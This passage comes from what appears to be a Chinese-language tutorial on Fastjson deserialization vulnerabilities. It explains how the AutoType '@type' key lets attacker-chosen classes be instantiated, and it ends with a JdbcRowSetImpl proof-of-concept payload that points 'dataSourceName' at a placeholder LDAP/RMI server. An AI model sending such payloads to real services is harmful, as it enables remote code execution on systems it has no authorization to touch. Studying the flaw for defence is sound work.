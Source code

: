 
在fastjosn中，正常设置该属性




```
import com.alibaba.fastjson.JSON;

public class Main {

    public static void main(String[] args) {
        String json = "{\"age\":20,\"name\":\"Liming\"}";
        Student xiaoming = JSON.parseObject(json,Student.class);
    }
}
```

在这个例子中，设置对象的属性就是默认调用了对象的set方法，如果set方法中还有恶意命令，则可以造成命令执行。

### 2.2.2 AutoType机制

在上一步的反序列化中，我们需要指定传入的Student.class，也就是Class字节码对象，很显然，这样子并不方便进行利用，因为需要一个已经实例化了的class对象，所以有了该机制。

 FastJson的AutoType机制支持在反序列化的过程中自动获取指定类的Class文件对象，当序列化的JSON字符串中包含@type键时就会自动将其值作为反序列化生成对象的具体类型，重点就在这里了，我们只需要传入类里面的数据就行了，不需要传输对象字节码。

FastJson自动获取对应的Class字节码对象，从而进行反射创建实例,为对象属性赋值等操作(和正常情况一样)，唯一的区别是不用直接传递class对象了，在JSON字符串中使用@type健即可自动获取类对应的Class对象。

所以有了这个序列化的对象：

```
{"@type":"Student","age":20,"name":"xiaoming"}
```

大概意思就是，会自动生成一个Student对象，并调用set方法去设置age和name。

至此其实已经完成了fastjson的漏洞解析，接下来，无非就是利用哪条链的问题了，可以利用的链需要满足以下要求：

1、存在set、get方法；

2、set、get方法传参可控；

3、传参后相关链子可用达到RCE的作用；

4、最后是相关依赖最好比较普遍，以便于利用；

## 2.3 Fastjson的利用链

### 3.1 com.sun.rowset.JdbcRowSetImpl利用链

这条链子其实就是上面JNDI注入的讲解，大致情况如下：

![](/zj_img/WEBRESOURCEa5d018b0d290385f5855eaf558449178e23a8130bdd952623bb2e4a004e4f14c.jpg)

该链的POC大概这样：

```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap/rmi Server", "autoCommit":true}
```
